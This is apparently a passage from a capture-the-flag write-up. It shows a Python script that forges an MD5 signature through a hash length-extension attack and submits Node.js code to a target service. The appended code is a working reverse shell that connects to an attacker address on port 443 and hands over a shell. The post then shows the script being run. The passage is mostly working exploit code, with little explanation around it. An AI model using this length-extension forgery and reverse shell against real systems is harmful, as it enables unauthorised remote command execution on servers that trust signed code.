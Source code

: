 ```python
            0xffffffff & (state[1] + b),
            0xffffffff & (state[2] + c),
            0xffffffff & (state[3] + d),)

curhash = 'aaa8111b4871b48dc6c0ac4c33ef9e1b'
message = b"""function hello(name) {
  return 'Hello ' + name + '!';
}

hello('World'); // should print 'Hello World'"""

append= """
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(443, "192.168.45.161", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();""".encode('utf-8')
extended_code = message + padding((len('xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx') + len('|') + len(message))*8) + append

extended_hash = md5(state=bytes.fromhex(curhash), count=1536)
extended_hash.update(append)
#print (extended_hash)
extended_sig = extended_hash.hexdigest()
r = requests.post ('http://192.168.233.153:8000', json={
    'code': base64.b64encode(extended_code).decode('utf-8'),
    'sig': extended_sig
    })
print (r.text)
```

The code I appended is just a JS reverse shell. Running this would give us a shell:

```
$ python3 hash.py
{"result":{}}
```

<figure><img src="../../../.gitbook/assets/image (374).png" alt=""><figcaption></figcaption></figure>
